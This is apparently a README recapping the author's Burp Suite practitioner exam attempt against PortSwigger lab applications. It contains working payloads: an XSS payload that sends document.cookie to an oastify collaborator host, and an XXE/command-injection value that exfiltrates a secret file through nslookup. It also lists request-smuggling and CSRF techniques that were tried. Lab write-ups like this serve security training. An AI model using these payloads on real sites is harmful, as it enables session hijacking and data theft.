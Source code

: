 # BSCP1-Recapitulation
This Repo contains Burp Suite Certification Practitioner Recapitulation of Mine


## BSCP 1<sup>st</sup> Exam
I have taken my first BSCP exam on **December 24th, 2024**. I failed on App 2 without success to address any vulnerabilities. Please find the details in the following points:

### Application 1 - EXPLOITED ❤️‍🔥
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Comment on the Blog Post
    3. Login Form
    4. Forgot Password
   
  - Vulnerability: XSS with Blocked Tags
  - How to trigger for the first time:
    ```javascript
    <script>alert(1)</script>
    ```
  - After scanning the allowed tags and events, I used this payload to ensure it works:
    ```javascript
    <body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>
    ```
  - I attached this *URL Encoded* payload to the Exploit Server:\
    a. Bare Payload
    ```javascript
    <script>Document.location = 'https://WEB_ID.web-security-academy.net/?query=<body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>#x';</script>
    ```
    b. URL encoded Payload (You can copy the URL from HTTP history )
    ```javascript
    <script>Document.location="https://WEB_ID.web-security-academy.net/?searchTerm=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fcollaborator.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie+tabindex%3D1%3E#x"</script>
    ```

- Stage 2:
  - Features:
    The features mentioned here are the additional visible functional after passing the `stage 1`
    1. Update Email
       
  - Vulnerability: JSON `roleId` in Response Body of Update Email.
  - How to Exploit:
    1. Send this request to the Intruder
    2. Brute the `roleId`
    3. Observe the result with statusCode `302`
   
- Stage 3:
  - Features:
    The features mentioned here are the visible functional in `Admin Panel` Menu
    1. XML User Import
  - Vulnerability: XXE Injection
  - How to Exploit:
    I used the following payload to exploit this vulnerability (I URL-Encoded the Ampersand(&) character):
    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <users>
      <user>
        <username>Exp1</username>
        <email>exp1@domain.com</email>
      </user>
     <user>
        <username>Exp2</username>
        <email>exp2@example.com%26`nslookup -q=cname $(cat /home/carlos/secret).bfuxae8oi1ac1lrm5l2hgmwh68c00qof.oastify.com`</email>
      </user>
    </users>
    ```

### Application 2 - UNEXPLOITED 😢
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Login Form
    3. Forgot Password
       
  - Walkthrough:
    1) I have Performed Host Header Attack using the following kind of techniques:
       - Enumerate using IP address: **NOT VULNERABLE**
       - Exploit using `X-headers`: **NOT VULNERABLE** (Not Reflected to the Exploit Server)
       - Exploit by supplying an absolute URL in the request line as follows `GET https://WEB_ID.WEB_ID.web-security-academy.net/`: **NOT VULNERABLE**. Please refer to [this lab](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing)
       - Exploit using duplicated host > **NOT VULNERABLE**
         > Not Reflected to the Exploit Server
       - Exploit using connection state > **NOT VULNERABLE**
         > it seems it was not able to use the connection header. Since `Connection` was not reflected in the response.
    2) Brute forcing user > **NOT VULNERABLE**.
         > There is no response with statusCode `302`)
    3) <a name="walkthrough-number-3"></a>I have found a different `Response Message` in the **Forgot Password** feature that indicates whether the user exists.
    4) I have performed CSRF Attack:
       - modified the CSRF token: **NOT VULNERABLE**
       - Removed CSRF token and Parameter: **NOT VULNERABLE**
       - swap the CSRF token with the value from the other session: **NOT VULNERABLE**
    5) Web Cache: **NOT VULNERABLE** (There is no `Tracking.js` and no `Cache` header in Response).
    6) I Have Performed HTTP Request Smuggling:
       - unable to use `CL` and `TE` Headers in a request: **NOT VULNERABLE** (Indicates we can direct to use **H2 or HTTP2** Techiniques)
       - Performed H2.TE; H2.CL; H2 Smuggling CRLF; CL.0 Req: **NOT VULNERABLE** (always GET `200` response, But It seems I have not exploited these techniques correctly).
    7) I have scanned using the `Launch All Scans` option in the **HTTP Request Smuggler** Extension. In addition, I only got a `dual path` vulnerability. In my opinion, we cannot consider that scan result as a potential vulnerability.
       > I will describe the reason in the next point).

  - Potential Vulnerability:
    In this section, I am trying to summarize or classify any potential vulnerabilities and any techniques that I have not performed prior BSCP Exam.
    1) H2 Request Splitting via CRLF Injection: **The Most potential vulnerability**.\
       > I have tried to find the potential labs in **Port Swigger Academy** that have similarities with my case in the exam. And I have found the closest potential in [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection) with `H2 Request Splitting via CRLF Injection` technique. The reason is When solving that lab, I only got the `dual path` vulnerability in the scan result compared to other `HTTP/2 Request Smuggling` techniques.
    2) HTTP/2-TE. Please refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling).
    3) Maybe Obfuscating `TE` Header using payload in **BotesJuan**'s Repo would be a good option.
       > Please note not to duplicate this header. Just use 1 `TE` Header since duplicated `TE` Header is not allowed).
    
    4) Perform H2.CL Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling).
    5) Perform CL.0 Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling).
    6) Brute Force the **Password** using the potential `usernames` based on the `Walkthrough` [number 3](#walkthrough-number-3).

    

    
     
